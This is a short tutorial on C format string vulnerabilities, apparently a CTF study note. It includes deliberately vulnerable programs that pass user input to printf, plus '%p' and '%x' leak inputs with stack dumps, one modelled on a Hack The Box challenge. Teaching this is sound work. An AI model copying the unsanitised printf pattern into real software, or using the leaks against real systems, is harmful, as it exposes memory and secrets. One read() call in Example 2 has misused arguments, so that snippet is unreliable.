 # Format String Vulnerability
A **format string vulnerability** is a bug where user input is passed as the format argument to `printf`, `scanf`, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to `printf`. Since `printf` and similar are variadic functions, they will continue popping data off of the stack according to the format.

# Common Parameters
| Parameters | Output                                   | Passed as  |
|------------|------------------------------------------|------------|
| %%         | % character (literal)                   | Reference  |
| %p         | External representation of a pointer    | Reference  |
| %d         | Decimal                                  | Value      |
| %c         | Character                                |            |
| %u         | Unsigned decimal                         | Value      |
| %x         | Hexadecimal                              | Value      |
| %s         | String                                   | Reference  |
| %n         | Writes the number of characters  into a pointer  | Reference  |

# Example #1
In the example below, we can see that we have control over the `password` variable, which will be printed by `printf`.      
We could use `%p` to write out the pointer addresses.
```c
#include <stdio.h>
#include <unistd.h>

int main(){
    int flag = 0xcafebabe;

    char password[256] = {0};
    read(0, password, 256);

    printf(password);
    printf("End of main!\n");

    return 0;
}
```
But as seen in the **output** below, since the flag is stored on the stack and it will print it regardless.
```
%p %p %p %p %p %p %p %p %p
0x7fff120059d0 0x100 0x76d74d5147e2 0x76d74d61bf10 0x76d74d6c6040 0x2 0xcafebabe0000000e 0x7025207025207025 0x2520702520702520
End of main!
```

# Example #2
This is a code to simulate the Hack The Box [racecar](https://app.hackthebox.com/challenges/racecar) challenge.       

In short, the code:
1. Loads *flag.txt* as `file`
2. Puts contents of `file` into `data_from_file`
3. Puts `data_from_file` onto the stack -- `buffer`
4. Aks for an input -- `password`
5. Outputs are shown and the program halts

In the actual challenge the flag was in the file and its contents were put onto the stack.

For this example *flag.txt* contains "*AAAAAA*"

```c
#include <stdio.h>

int main() {
    char password[256] = {0};
    char data_from_file[256];
    char buffer[44];

    FILE* file = fopen("flag.txt", "r");
    if (file == NULL) {
        perror("Failed to open file");
        return 1;
    }
    read(data_from_file, 1, 256); 

    fgets(buffer, 44, file);

    read(0, password, 256);
    printf(password); 

    printf("End of main!\n");

    return 0;
}
```

To leak the offset of `buffer` we did the following:
```
%x %x %x %x %x %x %x %x %x  %x
7d6a3130 100 507147e2 3 1bb8b480 0 1bb8b2a0 41414141 0  ff00
```
We could now read the *A*s in hex format *(0x41)* and can note that they start at offset 8.

*The challenge was a bit more complex, this is just for demonstration purposes*

# References
- [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)